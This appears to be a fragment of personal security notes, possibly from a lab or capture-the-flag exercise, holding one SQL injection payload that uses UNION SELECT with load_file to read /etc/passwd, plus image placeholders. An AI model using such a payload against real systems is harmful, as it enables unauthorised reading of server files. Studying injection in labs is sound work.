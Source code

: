 Consulta: `" UNION SELECT NULL,NULL,load_file("/etc/passwd"),NULL-- -`

![[Pasted image 20250729203633.png]]

![[Pasted image 20250729203748.png]]